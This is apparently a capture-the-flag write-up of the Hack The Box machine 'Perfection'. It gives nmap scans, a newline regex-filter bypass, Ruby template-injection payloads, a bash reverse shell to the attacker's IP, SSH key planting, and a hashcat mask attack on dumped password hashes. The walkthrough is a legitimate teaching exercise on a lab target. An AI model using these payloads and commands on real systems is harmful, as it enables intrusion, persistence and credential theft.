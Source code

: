 ```yaml
---
title: Perfection
published: true
layout: post
---
```


<br />

---------------
Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the sudo group. Further enumeration uncovers a database with password hashes, and the user&amp;amp;#039;s mail reveals a possible password format. Using a mask attack on the hash, the user&amp;amp;#039;s password is obtained, which is leveraged to gain root access. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/VWSd_V7qtaY?si=rPgEI3iybf_bt-FQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.253 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.253 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

![](/assets/Perfection/1.png)

<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.253 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Perfection/2.png)

<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.253 -p 22,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery or *ssh* or *http* or *nginx*" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

I actually found this machine a little bit hard, as I hadn't faced an **Server Side Template Injection (SSTI)** until this machine.

<br />

We can find a website that calculate a weighted grade based on an **input**, in the category textbox I tried to **inject commands**, and I received this output:<br />

![](/assets/Perfection/3.png)

<br />
<br />

I tried to **detect which characters are blocked** using BurpSuite, however none of the characters are useful for escaping to inject commands:<br />

![](/assets/Perfection/4.png)

<br />
<br />

I was stuck, so I searched in the Internet how this kind of filtering works, and I found that most of them work by **filtering only until the end of the line**, so I tried creating a **new line and using a blocked character**:

```bash
tanades%0a|whoami
```

![](/assets/Perfection/5.png)

<br />
<br />

I tried some **SSTI payloads** until I found one that worked, I also **URL encoded** them:

```bash
tanades%0a<%= 7*7 %>
```

![](/assets/Perfection/6.png)

<br />
<br />

Great!! Ruby interpreted it, let's try to **inject a command**:

```bash
tanades%0a<=% `ls /` %>
```

![](/assets/Perfection/7.png)

<br />
<br />

Great!! We can inject OS commands, so let's inject a reverse shell, but first remember to start listening:

```bash
nc -nlvp 4444
tanades%0a<=% `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.5/4444 0>&1'` %>
```

![](/assets/Perfection/8.png)

<br />
<br />

Great!! We have a reverse shell in the machine, before anything, I pasted my **SSH public key in the authorized_keys** of this user to log in using SSH:

```bash
Kali> cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip
Victim> mkdir /home/susan/.ssh
Victim> echo "public_key" >> /home/susan/.ssh/authorized_keys
```

<br />

Now we can log into the victim machine using SSH:

```bash
ssh susan@10.10.11.253
```

![](/assets/Perfection/9.png)

<br />
<br />

Let's print the flag and continue:<br />

![](/assets/Perfection/10.png)

<br />
<br />

------

<br />
### Privilege Escalation

<br />

Escalating privileges in this machine is quite entertaining, is something I haven't done before, but easier than SSTI.

<br />

We can find a few relevant pieces of information in this machine:

- A database with credentials in **/home/user/susan/Migration/pupilpath_credentials.db**.
- A mail in **/var/mail/susan**.
- We are part of the sudo group, however we need susan's password to use sudo.

Let's examine the database contents:

```bash
sqlite3 Migration/pupilpath_credentials.db
.tables
select * from users;
```

![](/assets/Perfection/11.png)

<br />
<br />

We have some hashes, which according to `hashid` is **SHA2-256**, let's continue with the email:

![](/assets/Perfection/12.png)

<br />
<br />

Okay, so we have a hash and a pattern for the password, let's use **hashcat in brute force** mode to crack it:

```bash
hashcat -a 3 -w 3 -m 1400 susan.hash susan_nasus_?d?d?d?d?d?d?d?d?d?d --increment
```

![](/assets/Perfection/13.png)

<br />
<br />

After a long time, we finally **cracked the password**, let's use it to elevate privileges and print the flag:

```bash
sudo su
cat /root/root.txt
```

![](/assets/Perfection/14.png)

<br />
<br />
